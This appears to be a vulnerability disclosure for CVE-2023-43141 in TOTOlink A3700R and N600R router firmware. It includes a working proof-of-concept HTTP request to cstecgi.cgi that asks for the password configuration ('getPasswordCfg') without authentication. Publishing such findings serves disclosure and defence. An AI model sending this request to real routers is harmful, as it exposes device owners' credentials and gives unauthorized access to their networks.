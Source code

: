

# CVE-2023-43141

# TOTOlink A3700R(V9.1.2u.6134_B20201202),N600R(V4.3.0cu.7647_B20210106) have unauthorized access vulnerabilities.

# Description

---

The attacker can gain unauthorized access to the interface, read configuration file information, and obtain access to the backend as well as other system services with open permissions.

# Firmware information

---

- Manufacturer's address: http://totolink.net/
- Firmware download address:(A3700R): https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/207/ids/36.html
- Firmware download address:(N600R): https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/160/ids/36.html

# Affected version

---

Version: A3700R(V9.1.2u.6134_B20201202)

![image-20230909144211545](https://blueandwhite.oss-cn-beijing.aliyuncs.com/blog/cve/image-20230909144211545.png)

Version:N600R(V4.3.0cu.7647_B20210106)

![image-20230909143902919](https://blueandwhite.oss-cn-beijing.aliyuncs.com/blog/cve/image-20230909143902919.png)

# Vulnerability details

---

POC

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.50.129
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 25
Origin: http://192.168.50.129
Connection: close
Referer: http://192.168.50.129/login.html

{"topicurl":"getPasswordCfg"}
```



![image-20230909142956661](https://blueandwhite.oss-cn-beijing.aliyuncs.com/blog/cve/image-20230909142956661.png)
